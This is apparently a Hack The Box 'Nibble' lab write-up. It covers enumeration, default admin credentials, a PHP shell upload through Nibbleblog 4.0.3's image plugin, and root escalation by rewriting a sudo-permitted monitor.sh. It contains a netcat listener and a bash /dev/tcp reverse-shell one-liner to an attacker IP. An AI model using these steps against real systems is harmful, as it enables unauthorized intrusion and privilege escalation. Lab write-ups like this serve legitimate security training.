 ```yaml
---
title: Writeup - HTB Nibble
date: 2023-11-14
author: kei5uke
description: Writeup for HTB Nibble
tags:
  - linux
  - writeup
---
```


# Nibble

# Enumeration

## Nmap

```bash
┌──(root💀kali)-[~/nibble]
└─# nmap -sV -sC -T4 -p- 10.129.68.48 -oN nmap.txt
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-14 22:53 EET
Nmap scan report for 10.129.68.48
Host is up (0.054s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.87 seconds
```

## Curl

Default page shows that there is a directory called `/nibbleblog`

```bash
┌──(root💀kali)-[/opt/generic]
└─# curl -X POST http://10.129.68.48
<b>Hello world!</b>

<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

## Gobuster

```bash
┌──(root💀kali)-[~/nibble]
└─# gobuster dir -u http://10.129.68.48/nibbleblog/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt  
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.68.48/nibbleblog/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/11/14 23:02:51 Starting gobuster in directory enumeration mode
===============================================================
/content              (Status: 301) [Size: 325] [--> http://10.129.68.48/nibbleblog/content/]
/themes               (Status: 301) [Size: 324] [--> http://10.129.68.48/nibbleblog/themes/]
/admin                (Status: 301) [Size: 323] [--> http://10.129.68.48/nibbleblog/admin/]
/plugins              (Status: 301) [Size: 325] [--> http://10.129.68.48/nibbleblog/plugins/]
/README               (Status: 200) [Size: 4628]
/languages            (Status: 301) [Size: 327] [--> http://10.129.68.48/nibbleblog/languages/]
Progress: 87625 / 87665 (99.95%)
===============================================================
2023/11/14 23:09:56 Finished
===============================================================
```

## Enumerating the blog

README in the blog says that the blog is called nibble and the version is 4.0.3

The exploit below says that there is php file that can upload some file, after logging as admin

[https://github.com/dix0nym/CVE-2015-6967](https://github.com/dix0nym/CVE-2015-6967)

You can login to admin page at `admin.php`

Username is `admin` and password is `nibbles`

Here in the My image plugin allows you to upload shell.

![Screenshot 2023-11-14 at 23.22.23.png](Nibble%200c3653b2aacf4a008231c03c2d1bb919/Screenshot_2023-11-14_at_23.22.23.png)

# Exploit

Access to the uploaded image file by pasting the link in the browser.

```bash
10.129.68.48/nibbleblog/content/private/plugins/my_image/image.php
```

I got the first shell.

```bash
┌──(root💀kali)-[~/nibble]
└─# rlwrap nc -lvnp 443                           
listening on [any] 443 ...
connect to [10.10.16.23] from (UNKNOWN) [10.129.68.48] 42354
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 16:21:28 up 30 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
nibbler
$ id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

# Privilege Escalation

[monitor.sh](http://monitor.sh) allows you to execute any bash script as root, I guess

```bash
nibbler@Nibbles:/tmp$ sudo -l
sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

I made reverse shell script and executed as root

```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ touch monitor.sh
touch monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo '#!/bin/bash' >> monitor.sh
<er/personal/stuff$ echo '#!/bin/bash' >> monitor.sh                         
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo 'bash -i >& /dev/tcp/10.10.16.23/1234 0>&1' >> monitor.sh
<ash -i >& /dev/tcp/10.10.16.23/1234 0>&1' >> monitor.sh                     
nibbler@Nibbles:/home/nibbler/personal/stuff$ chmod 777 monitor.sh
chmod 777 monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh
<er/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh
```

# Root shell

I got root shell.

![Screenshot 2023-11-14 at 23.59.43.png](Nibble%200c3653b2aacf4a008231c03c2d1bb919/Screenshot_2023-11-14_at_23.59.43.png)